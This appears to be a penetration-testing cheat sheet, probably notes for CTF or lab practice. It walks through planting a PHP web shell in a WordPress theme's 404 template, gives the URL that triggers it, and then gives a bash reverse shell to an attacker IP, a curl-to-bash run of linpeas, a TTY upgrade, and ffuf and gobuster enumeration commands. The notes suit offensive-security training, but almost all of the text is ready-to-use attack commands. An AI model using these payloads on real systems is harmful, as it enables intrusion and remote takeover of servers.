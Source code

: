 > Wordpress
Appearance > theme-editor > select a theme that is not in use > 404 Template > edit your php file

```bash
<?php system($_REQUEST['cmd']); ?>
```

dominio/main/wp-content/themes/<theme>/404.php?cmd=whoami

```bash
bash -c 'bash -i >& /dev/tcp/<kali ip>/<port> 0>&1' # You can encode with burp before send
curl <ip:port>
```

## COPY cat command
```bash
cat reverse-shell.php | xclip -selection clipboard
```


After open a python server to send a file:

grab with curl:
```bash
curl <ip:port>/linpeas.sh | bash or sh # this will execute directly
```

## Better shell
```bash
{
python -c "import pty;pty.spawn('/bin/bash')"
crtl + z
stty raw -echo
fg
enter
enter
}
```

Discovery Web Content: dirb, gobuster, dirsearch
```bash
ffuf -u <url>/FUZZ -w <wordlist>
ffuf -u <url>/FUZZ-- -w <wordlist-special-chars> -mc 200,500 -fw 9
```


## GOBUSTER - WEB ENUMERATION

### try to find directories
```bash
gobuster dir -w /opt/Seclists/Discovery/Web-Content/raft-small-words.txt -x php -u <url> -o gobuster/dir-root.log
```

### try to find subdomains
```bash
gobuster vhost -w /opt/Seclists/Discovery/DNS/subdomains-topmillion-110000.txt -u <url> -o gobuster/vhist-sub.txt
```
